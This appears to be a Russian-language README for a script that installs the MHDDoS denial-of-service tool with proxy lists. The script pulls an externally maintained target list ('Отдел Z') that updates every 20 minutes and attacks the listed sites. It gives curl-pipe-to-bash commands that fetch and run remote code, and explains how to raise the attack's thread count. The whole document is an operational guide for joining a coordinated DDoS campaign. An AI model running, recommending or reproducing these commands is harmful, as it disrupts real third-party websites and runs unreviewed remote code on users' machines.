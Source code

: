 # Запустить скрипт
```
curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash
```
Автоматически устанавливает git python3, pip, proxy, MHDDoS, расширенный список proxy и все зависимости.

Работает с базой сайтов Отдел Z.

База целей обновляется каждые 20 минут.

Во время запуска всегда проверяет и загружает обновления proxy и MHDDoS.

Рекомендуется использовать на Ubuntu 20.04. Но должно работать на всех Ubuntu и Debian производных, а также в WSL2.

Для остановки скрипта несколько раз нажмите CTRL + C, или закройте окно с терминалом.

❕ Изменение интенсивности
Если скрипт очень замедляет ПК, или наоборот Вы имеете неиспользованные ресурсы, можно снизить, или наоборот повысить интенсивность работы скрипта. Для этого надо управлять параметром threads. По умолчанию threads = 1000.

Чтобы снизить нагрузку на систему, попробуйте использовать threads = 500
```
curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash -s -- 500
```
Чтобы загрузить систему больше, попробуйте использовать threads = 2000
```
curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash -s -- 2000
```
